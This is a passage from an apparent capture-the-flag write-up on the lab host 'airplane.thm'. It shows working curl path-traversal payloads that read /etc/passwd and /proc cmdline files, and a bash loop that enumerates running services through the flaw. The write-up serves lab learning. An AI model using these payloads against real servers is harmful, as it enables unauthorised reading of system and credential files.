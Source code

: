 ## Port 8000 Analysis

The webserver redirected me to `airplane.thm`, so I added the domain to my hosts file. The page displayed some historical information about airplanes, which didn't seem useful. The URL caught my attention because of the `page` parameter, which had the value of an HTML file likely inside the webserver directory:
```html
http://airplane.thm:8000/?page=index.html
```

This could be vulnerable to path traversal, so I attempted to read the `/etc/passwd` file and was successful:
```bash
kali@kali:~/ctf/airplane$ curl http://airplane.thm:8000/?page=../../../../../../../../../../etc/passwd
  root:x:0:0:root:/root:/bin/bash
  [...]
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  [...]
  carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
  [...]
  hudson:x:1001:1001::/home/hudson:/bin/bash
  [...]
```

Great! I was able to read arbitrary files, so I tried to enumerate the system and read known files like Bash histories and SSH keys but was unsuccessful. After researching the Python Werkzeug web application, I got a list of default files to try reading. After analyzing the source code, this didn't reveal anything useful, so I moved on to the next port.

## Port 6048 Analysis

Since the nmap output didn't revealed anything useful about this port, I needed a way to gain more information. The `/proc/[PID]/cmdline` returns the running service name of that PID, so I used this for further enumeration:
```bash
kali@kali:~/ctf/airplane$ curl http://airplane.thm:8000/?page=../../../../../../../../../proc/1/cmdline --output -
  /sbin/initsplash
```

To automate this, I wrote a small bash script, executed it, and redirected the output to a file:
```bash
kali@kali:~/ctf/airplane$ cat proc_search.sh
  #!/bin/bash

  for i in {300..600}; do
      response=$(curl -s "http://airplane.thm:8000/?page=../../../../../../../../../proc/${i}/cmdline" --output -)
      echo "pid: $i service: $response"
  done
kali@kali:~/ctf/airplane$ ./proc_search.sh > output 
```
